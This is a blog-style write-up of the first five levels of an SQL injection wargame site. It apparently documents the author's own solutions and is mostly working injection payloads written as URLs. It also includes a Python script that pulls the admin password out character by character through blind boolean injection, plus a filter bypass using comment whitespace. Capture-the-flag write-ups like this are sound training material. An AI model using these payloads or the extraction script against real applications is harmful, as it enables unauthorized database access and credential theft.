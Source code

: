 ```yaml
---
layout: default
---
```


# SQL Injection Exercise 
23-04-2019

Visit [los.eagle-jump.org](https://los.eagle-jump.org) to play along with me. There are multiple possible solutions to each challenge, so you must try them all.

## 1. Gremlin

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/gremlin_1.JPG)


```
https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=a'or 'a'='a&pw=a' or 'a'='a
```

## 2. Cobolt

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/cobalt_2.JPG)


```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=a' or 'a'='a' limit 1,1 -- '&pw=
```

## 3. Goblin

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/goblin_3.JPG)


```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0 or 1=1 and no=2
```

## 4. orc

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/orc_4.JPG)

```py
import requests
import string

cookies = {'PHPSESSID':'<REDACTED>'}

length = 0
while True:
	length += 1
	passLenUrl = "https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=1' or (id='admin' and  length(pw)='" + str(length) + "') %23"
	r = requests.get(passLenUrl,cookies=cookies)
	response = r.text
	if(response.count("Hello") == 2):
		break
print("pw length = " + str(length) + "\n")

pw = ""
for i in range(1,length+1):
	j=""
	for j in string.printable:
		url = "https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=1' or (id='admin' and substring(pw,"+str(i)+",1) = '"+str(j)+"') %23"
		r = requests.get(url,cookies=cookies)
		response = r.text
		if(response.count("Hello") == 2):
			break
	pw += j

print("pw = " + pw)
```

```
https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
```

## 5. Wolfman

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/wolfman_5.JPG)


```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=1'/**/or/**/1=1/**/and/**/id='admin'%23
```
